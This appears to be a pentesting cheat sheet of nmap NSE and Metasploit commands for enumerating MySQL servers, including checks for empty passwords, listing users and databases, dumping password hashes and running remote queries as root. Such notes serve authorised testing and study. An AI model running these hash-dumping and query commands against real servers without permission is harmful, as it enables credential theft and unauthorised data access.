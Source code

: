 # MYSQL Enumeration using NMAP

#### FINDING USER ACCOUNTS WITH EMPTY PASSWORDS:
identifies all accounts on the target which doesn't require a password to Login
```
nmap -sV <TARGET> --script=mysql-empty-password
```

#### VERSION DETECTION:
detects valuable information's like Version info etc..
```
nmap -sV --script=mysql-info <TARGET>
```

#### USER ENUMERATION:
lists all the users on the target
```
nmap -sV <TARGET> --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" 
```

#### LISTING ALL DATABASES ON TARGET:
```
nmap -sV <TARGET> --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" 
```

#### ENUMERATING MYSQL VARIABLES:
Attempts to show all variables on a MySQL server.
```
nmap -sV <TARGET> --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" 
```

#### AUDITING THE TARGET SQL:
Audits MySQL database server security configuration
```
nmap -p 3306 --script mysql-audit --script-args "mysql-audit.username='USERNAME',mysql-audit.password='PASSWORD',mysql-audit.filename='nselib/data/mysql-cis.audit'"
```

#### DUMPING USER HASHES USING METASPLOIT:

```
msfconsole
use auxiliary/scanner/mysql/mysql_hashdump 
set RHOST <TARGET>
set USERNAME <>
set PASSWORD " "
exploit
```

#### DUMPING USER HASHES USING NMAP NSE:

```
nmap -p 3306 <TARGET> --script mysql-dump-hashes --script-args='username=root,password=secret'
```

#### REMOTE QUERY EXECUTION:

```
nmap -p3306 <TARGET> --script mysql-query --script-args query='select * from books.authors;',username='root',password=''
```
